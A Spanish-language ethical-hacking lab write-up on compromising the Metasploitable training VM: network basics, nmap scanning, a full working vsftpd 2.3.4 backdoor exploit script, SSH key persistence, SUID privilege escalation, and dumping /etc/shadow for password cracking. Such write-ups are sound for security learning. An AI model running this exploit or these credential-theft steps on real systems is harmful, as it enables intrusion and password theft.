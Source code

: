 ```yaml
---
{"dg-publish":true,"permalink":"/linux/metasploitable/","dgPassFrontmatter":true}
---
```



Es una `máquina` diseñada para para probar herramientas de `seguridad` y demostrar `vulnerabilidades` comunes.

- SO: Ubuntu Linux
- Vulnerabilidades intencionadas

---
## Que es una IP?

Una dirección `IP` es un identificador numérico único asignado a cada dispositivo conectado a una red, funciona como una especie de "*dirección*" para que los dispositivos puedan encontrarse y comunicarse entre sí dentro de la `red`. También es posible cambiar una dirección IP, dependiendo de si se trata de una IP `pública` o `privada`.

- IP pública: Una dirección que identifica tu red
- IP privada: Una dirección que identifica un dispositivo

![Pasted image 20250615181619.png](/img/user/imgs/Pasted%20image%2020250615181619.png)

## Que es ARP?

`ARP` es un *protocolo* que se utiliza para asignar direcciones `MAC` a direcciones IP en una red de área local (LAN). Esto funciona como un `traductor/intérprete` entre el protocolo de internet (IP) y la capa de enlace de datos (MAC). Es esencial para que los dispositivos se comuniquen dentro de la red, ya que las direcciones IP son lógicas y las direcciones MAC son físicas.
![Pasted image 20250615193448.png](/img/user/imgs/Pasted%20image%2020250615193448.png)

## Que es el ARP-SCAN?

Ya hablamos del protocolo ARP, ahora vamos a ver la herramienta utilizada para los protocolos ARP.
Es una herramienta de línea de comandos que se utiliza para descubrir hosts en una red local enviando paquetes `Addres Resolution Protocol` y analizando sus respuestas. Permitiendo a los usuarios identificar dispositivos activos y sus direcciones MAC y IP dentro de la red.

##### Como funciona?
- Si un dispositivo en la red está utilizando esa dirección IP, responderá con una solicitud ARP de vuelta, indicando su dirección MAC.
- `arp-scan` recopila estas respuestas y muestra la información del dispositivo, incluyendo su dirección IP y MAC.
- Envía solicitud ARP con la dirección IP de destino a cada dirección IP dentro de un rango especificado

Ejemplo:
![Pasted image 20250615194102.png](/img/user/imgs/Pasted%20image%2020250615194102.png)

---

## Que es Netcat?

`Netcat` es una herramienta de línea de comandos que sirve para escribir y leer datos en la red. Conocida por ser la `navaja suiza de las redes` debido a que podemos hacer transferencia de datos a través de los protocolos `TCP/UDP`, su funcionamiento depende de que la comunicación IP entre dispositivos esté correctamente establecida. Aquí es donde entra el protocolo ARP (`Address Resolution Protocol`), que trabaja en la capa de enlace de datos. ARP se encarga de resolver direcciones IP a direcciones MAC dentro de una red local. Cuando usas *Netcat* para conectarte a otra máquina en la misma red, primero se realiza una consulta ARP para saber a qué dirección MAC enviar los paquetes. Sin una resolución ARP exitosa, la conexión de Netcat no podría establecerse.

Ejemplo
![Pasted image 20250615195303.png](/img/user/imgs/Pasted%20image%2020250615195303.png)

---

## Escaneo y Enumeración:

Usaremos NMAP para para escanear los puertos abiertos y así poder identificar servicios en ejecución.

![Pasted image 20250615200116.png](/img/user/imgs/Pasted%20image%2020250615200116.png)

Como vector de ataque podríamos probar la versión del FTP en el cual si buscamos en internet tenemos varios documentos e informes acerca de la vulnerabilidad `vstftpd 2.3.4` en el cuál el exploit consiste en un `backdoor` que fue introducido por un atacante en el código fuente oficial del servidor FTP vsftpd. Este exploit permite al atacante obtener una shell remota en el servidor vulnerable.

código del exploit:
``` python
# Exploit Title: vsftpd 2.3.4 - Backdoor Command Execution
# Date: 9-04-2021
# Exploit Author: HerculesRD
# Software Link: http://www.linuxfromscratch.org/~thomasp/blfs-book-xsl/server/vsftpd.html
# Version: vsftpd 2.3.4
# Tested on: debian
# CVE : CVE-2011-2523

#!/usr/bin/python3   
                                                           
from telnetlib import Telnet 
import argparse
from signal import signal, SIGINT
from sys import exit

def handler(signal_received, frame):
    # Handle any cleanup here
    print('   [+]Exiting...')
    exit(0)

signal(SIGINT, handler)                           
parser=argparse.ArgumentParser()        
parser.add_argument("host", help="input the address of the vulnerable host", type=str)
args = parser.parse_args()       
host = args.host                        
portFTP = 21 #if necessary edit this line

user="USER nergal:)"
password="PASS pass"

tn=Telnet(host, portFTP)
tn.read_until(b"(vsFTPd 2.3.4)") #if necessary, edit this line
tn.write(user.encode('ascii') + b"\n")
tn.read_until(b"password.") #if necessary, edit this line
tn.write(password.encode('ascii') + b"\n")

tn2=Telnet(host, 6200)
print('Success, shell opened')
print('Send `exit` to quit shell')
tn2.interact()

```

### Claves ID_RSA?
Es una clave privada del protocolo SSH, utilizado para autenticarse sin necesidad de una contraseña. Esto mismo sería para aplicar persistencia en la máquina.
![Pasted image 20250615204510.png](/img/user/imgs/Pasted%20image%2020250615204510.png)

Para ello, luego de mantener persistencia en la máquina podríamos elevar privilegios de manera local.

Como recurso de escalado de privilegios tenemos esta página llamada [GTFoBins](https://gtfobins.github.io) y [HackTricks](https://book.hacktricks.wiki/es/index.html) para múltiples técnicas de Hacking Ético.

Ejemplo de explotación de binarios SUID:
![Pasted image 20250615205929.png](/img/user/imgs/Pasted%20image%2020250615205929.png)

En la página de GTFoBins, tenemos varias técnicas de explotación de binarios SUID para buscar cual es la más acorde para escalar privilegios.

![Pasted image 20250615210130.png](/img/user/imgs/Pasted%20image%2020250615210130.png)

Luego de copiar el SUID correcto, queda elevar nuestros privilegios:
![Pasted image 20250615210243.png](/img/user/imgs/Pasted%20image%2020250615210243.png)
Y listo, ya somos ROOT, pero? no sabemos la contraseña de ROOT, ya que ahora tenemos privilegios máximos en el sistema podemos leer el archivo **/etc/shadow**

![Pasted image 20250615210515.png](/img/user/imgs/Pasted%20image%2020250615210515.png)
Y si nos damos cuenta la contraseña esta formato **HASH**, a lo cual nosotros tendremos que intentar fusionar los archivos `/etc/passwd` y `/etc/shadow` para que pueda ser entendido por herramientas de `crackeo de contraseñas` por ejemplo, `John The Ripper` y/o `Hashcat`, etc. Lo podemos realizar con el comando *unshadow*.

Luego podríamos almacenar estas credenciales obtenidas en unas notas de nuestra maquina principal por si en algún momento queremos mantener la persistencia del usuario ROOT.

## Que aprendimos?

Aprende que no todos las aplicaciones son seguras realmente, pudimos ingresar al protocolo `FTP` mediante un exploit que está en internet (*debido a que una empresa fue comprometida externamente*) más especifico mediante un `Backdoor` y hemos logrado mantener persistencia dentro de la maquina, haciendo uso de llaves privadas ID_RSA, luego intentamos elevar nuestros privilegios a lo cual mediante los SIUD mal configurados logramos obtener acceso máximo como ROOT y logramos leer las contraseñas de todos los usuarios de la máquina.


![fin.gif](/img/user/fin.gif)
